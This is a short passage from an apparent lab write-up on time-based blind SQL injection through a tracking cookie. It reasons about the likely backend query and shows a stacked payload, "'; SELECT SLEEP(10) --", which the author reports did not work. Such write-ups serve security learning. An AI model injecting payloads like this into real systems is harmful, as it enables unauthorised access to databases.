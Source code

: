 <figure><img src="../../../.gitbook/assets/image (147).png" alt=""><figcaption></figcaption></figure>

So, to construct the payload, we first have to think what the SQL query may be looking like:&#x20;

<mark style="color:yellow;">`SELECT tracking-id FROM tracking-id-table WHERE tracking-id-cookie='random-value'`</mark>

So, to inject the blind-based SQLi payload, we will have to inject it in the following manner:

<mark style="color:yellow;">`SELECT tracking-id FROM tracking-id-table WHERE tracking-id-cookie='random-value'; SELECT SLEEP(10) --'`</mark>

So, our payload will be: <mark style="color:yellow;">`'; SELECT SLEEP(10) --`</mark>

That did not work....

<figure><img src="../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>
